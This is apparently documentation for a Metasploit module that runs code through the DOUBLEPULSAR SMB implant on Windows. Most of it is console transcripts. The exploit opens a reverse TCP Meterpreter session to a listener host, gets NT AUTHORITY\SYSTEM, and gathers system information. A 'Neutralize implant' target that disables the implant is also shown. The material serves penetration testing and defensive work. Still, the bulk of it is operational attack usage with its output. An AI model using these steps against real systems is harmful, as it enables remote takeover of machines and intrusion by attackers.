 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for SMB as popularly deployed by ETERNALBLUE.

While this module primarily performs code execution against the implant, the
`Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module functionality.
Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into. Defaults
to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > check

[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[+] 192.168.56.115:445 - The target is vulnerable.
msf5 exploit(windows/smb/smb_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:445 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:445 - Encrypting shellcode with XOR key 0x33C6DC64
[*] 192.168.56.115:445 - Sending shellcode to DOUBLEPULSAR
[+] 192.168.56.115:445 - Payload execution successful
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-09-25 18:26:47 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/smb/smb_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/smb/smb_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] 192.168.56.115:445 - Connected to \\192.168.56.115\IPC$ with TID = 2048
[*] 192.168.56.115:445 - Target OS is Windows Server 2008 R2 Standard 7601 Service Pack 1
[*] 192.168.56.115:445 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:445 - Host is likely INFECTED with DoublePulsar! - Arch: x64 (64-bit), XOR Key: 0x33C6DC64
[*] 192.168.56.115:445 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:445 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/smb/smb_doublepulsar_rce) >
```
